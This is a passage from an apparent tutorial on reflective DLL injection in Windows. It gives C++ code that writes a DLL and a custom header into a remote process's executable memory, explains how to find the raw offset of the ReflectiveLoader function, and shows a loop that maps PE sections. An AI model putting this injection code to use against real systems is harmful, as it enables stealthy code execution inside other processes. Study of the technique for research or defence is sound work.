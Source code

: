 ```cpp
    //since now i can overwrite those
    memcpy(newDll, HEADER, HEADER_SIZE);

    return newDll;
}
/*---------SOMEWHERE ELSE IN THE CODE WE DEFINE THE FUNCTION-----*/
PBYTE InjectDllRemoteProcess(int pid, size_t dllSize, PBYTE dllBuffer, HANDLE hProc) {
    size_t bytesWritten = 0;
    PBYTE dllBufferFinal = (PBYTE)addHeaderToBuffer(dllBuffer, dllSize);
    PBYTE dllDestination = (PBYTE)VirtualAllocEx(hProc, NULL, dllSize + HEADER_SIZE, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (dllDestination == NULL) {
        cout << "[-] Error while allocating memory in remote process, exiting ... " << endl;
        return NULL;
    }
    //it's important to make some space also for the header
    if (WriteProcessMemory(hProc, dllDestination, dllBufferFinal, dllSize + HEADER_SIZE, &bytesWritten))
    {
        printf("[+] Successfully wrote DLL bytes + header at remote address: %p\n", dllDestination);
    }
    else {
        cout << "[-] Error while writing the DLL in the remote process, exiting ... " << endl;
        cerr << "[-] Win32 API Error: " + GetLastError() << endl;
        return NULL;
    }
    return dllDestination;

}
```

Cool, if we haven’t got any error it means our DLL is injected in the target process. We now need to find the pointer to the RAW bytes that are the start of our ReflectiveLoader function. This is because we want to create a thread in the remote process that runs the ReflectiveLoader function, and the DLL in the remote process is still in a “raw” state. A little problem arises here, **in any of the sections we do not have a pointer to a relative raw address** 😮 As we saw in the PE structure, there is a link to function/variables etc. once sections are mapped into virtual memory (RVAs) but not to RAW data. 

Nonetheless, we can find what we want, which it would be basically a RRA (relative raw address). If you think about it, In the section headers we have a pointer to the beginning of the raw data, moreover **we also know that the distance between the beginning of a section and the function we want to retrieve is the same in the RAW data as in the Virtual mapped memory**. In fact, if you remember, that’s how we copy the data to virtual address:

```cpp
//copying the RAW data in the desired VirtualAddress
  for (int i = 0; i < ImgFileHdr.NumberOfSections; i++) {
       custom_memcpy(
           (PVOID)(pebase + peSections[i]->VirtualAddress),// Destination
           (PVOID)(dllBaseAddress + peSections[i]->PointerToRawData),// Source
           peSections[i]->SizeOfRawData// Size
       );
   }
```
